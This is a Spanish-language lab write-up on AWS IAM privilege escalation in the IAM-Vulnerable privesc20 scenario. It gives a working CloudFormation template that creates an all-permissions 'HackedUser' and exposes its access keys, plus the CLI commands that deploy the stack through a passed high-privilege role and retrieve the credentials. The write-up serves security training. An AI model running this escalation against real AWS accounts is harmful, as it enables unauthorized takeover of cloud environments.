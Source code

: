 ```yaml
---
description: 'Lab: IAM-VULNERABLE'
---
```


# PassExistingRoleToCloudFormation

Un atacante con los permisos de <mark style="color:green;">**iam:PassRole**</mark> y <mark style="color:green;">**cloudformation:CreateStack**</mark> podría aumentar sus privilegios mediante la creación de una plantilla de CloudFormation que realizará acciones y creará recursos utilizando los permisos del rol que se pasó al crear una pila de CloudFormation

{% embed url="https://github.com/BishopFox/iam-vulnerable#supported-privilege-escalation-paths" %}
Lab: IAM - Vulnerable | Escenario: privesc20
{% endembed %}

### Configuración inicial

Usuario del laboratorio: privesc20-PassExistingRoleToCloudFormation-user Con las siguientes políticas

<figure><img src="../../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

Y configurar las llaves de acceso con AWS CLI\


<figure><img src="../../../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

### Explotación

En este escenario, tenemos que aprovechar del privilegio de <mark style="color:green;">**cloudformation:CreateStack**</mark> para crear un stack que tendrá lo necesario para escalar privilegios. Posteriormente, utilizaremos el permiso <mark style="color:green;">**cloudformation:DescribeStacks**</mark> para visualizar información relacionada al stack malicioso.&#x20;

No hay una serie de pasos específicos para escalar privilegios mediante el uso de CloudFormation. Ya que el atacante puede indicarle a CloudFormation que active cualquier recurso de AWS. En pocas palabras, se puede utilizar Cloudformation para escalar privilegios de diversas maneras como, por ejemplo, creando un nuevo usuario con permisos de administrador como se usa en el ejemplo a continuación.

Para este ejercicio se requiere de una plantilla para crear un usuario con privilegios de administrador:

{% code title="IAMCreateUserTemplate.json" overflow="wrap" %}
```json
{
  "Resources": {
    "HackedUser": {
      "Type": "AWS::IAM::User"
    },
    "AdminPolicy": {
      "Type": "AWS::IAM::ManagedPolicy",
      "Properties": {
        "Description" : "This policy allows all actions on all resources.",
        "PolicyDocument": {
          "Version": "2012-10-17",
          "Statement": [
            {
              "Effect": "Allow",
              "Action": [
                "*"
              ],
              "Resource": "*"
            }
          ]
        },
        "Users": [{
          "Ref": "HackedUser"
        }]
      }
    },
    "MyUserKeys": {
      "Type": "AWS::IAM::AccessKey",
      "Properties": {
        "UserName": {
          "Ref": "HackedUser"
        }
      }
    }
  },
  "Outputs": {
    "AccessKey": {
      "Value": {
        "Ref": "MyUserKeys"
      },
      "Description": "Access Key ID of Admin User"
    },
    "SecretKey": {
      "Value": {
        "Fn::GetAtt": [
          "MyUserKeys",
          "SecretAccessKey"
        ]
      },
      "Description": "Secret Key of Admin User"
    }
  }
}

```
{% endcode %}

Despues usando el comomando cloudformation create-stack se crea un stack con el parámetro --role para hace ruso de PassRole al servicio.

{% code overflow="wrap" %}
```
aws cloudformation create-stack --stack-name privesc --template-body file:///home/user/IAMCreateUserTemplate.json --role arn:aws:iam::ID_account:role/privesc-high-priv-service-role --capabilities CAPABILITY_IAM --profile privesc20
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

En la evidencia previa, podemos apreciar el valor del StackId que fue retornado después de ejecutar el comando para crear el stack malicioso. Ahora que hemos creado nuestro stack malicioso, vamos aprovechar nuestro otro privilegio de cloudformation:DescribeStacks para visualizar el outputkey y posteriormente autenticarnos con estas credenciales.

{% code overflow="wrap" %}
```
aws cloudformation describe-stacks --stack-name arn:aws:cloudformation:us-east-1:ID_Account:stack/privesc --profile privesc20
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (60) (1).png" alt=""><figcaption></figcaption></figure>

En la imagen se muestra la correcta creación del stack junto con las credenciales de acceso del usuario admin creado. se procede a utilizar esas llaves de acceso

<figure><img src="../../../../.gitbook/assets/image (61) (1).png" alt=""><figcaption></figcaption></figure>

Usando estas credenciales se listan las capacidades del usuario creado

<figure><img src="../../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

Como se observa, el usuario HackedUser, tiene políticas de full administrador, habiendo comprometido y escalado privilegios de manera correcta.



